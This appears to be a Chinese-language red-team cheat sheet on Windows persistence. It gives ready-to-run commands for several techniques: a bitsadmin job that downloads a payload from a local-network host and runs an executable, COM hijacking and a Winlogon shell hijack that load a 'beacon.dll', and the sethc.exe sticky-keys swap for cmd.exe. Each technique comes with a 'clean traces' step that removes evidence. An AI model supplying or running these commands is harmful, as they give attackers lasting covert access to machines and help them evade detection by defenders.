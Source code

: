 清理痕迹

到对应注册表的位置删除Appinit_Dlls的值

bits文件传输
通过bitsadmin从网络上下载的时候可以额外执行脚本

bitsadmin /create test

随意下载
bitsadmin /addfile test http://192.168.2.1:8000/payload.ps1 c:\users\public\downloads\payload.ps1 

执行的命令
bitsadmin /SetNotifyCmdLine test "C:\windows\system32\cmd.exe" "cmd.exe /c c:\users\public\downloads\payload.exe" 

启动任务
bitsadmin /resume test
每次开机的时候会触发

清理痕迹

bitsadmin /reset
COM组件劫持
将脚本放入com组件中

reg add "HKEY_CURRENT_USER\Software\Classes\CLSID\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\InprocServer32" /t REG_SZ /d "c:\users\public\downloads\beacon.dll" /f

reg add "HKEY_CURRENT_USER\Software\Classes\CLSID\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\InprocServer32" /v ThreadingModel /t REG_SZ /d "Apartment" /f
清理痕迹

删除注册表中的路径值，并通过路径删除木马文件

替换cmd.exe
将sethc.exe（按shift 5下）替换成cmd.exe

takeown /f sethc.* /a /r /d y
cacls sethc.exe /T /E /G administrators:F
copy /y cmd.exe sethc.exe
清理痕迹

找个原版的setch.exe 覆盖回去

Winlogon劫持
winlogon是windows登录账户时会执行的程序，这里将其注册表中写入木马运行的dll路径

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v shell /t REG_SZ /d "explorer.exe, rundll32.exe \"c:\users\public\downloads\beacon.dll\" StartW" /f
清理痕迹

删除注册表的shell中的值，并且找到后门文件删除掉

组策略
需要能远程登录到桌面

输入gpedit.msc打开组策略，需要管理员账号

在用户与计算机中的windows设置中均可以对脚本进行编辑，用户策略是用户权限，计算机策略是system权限
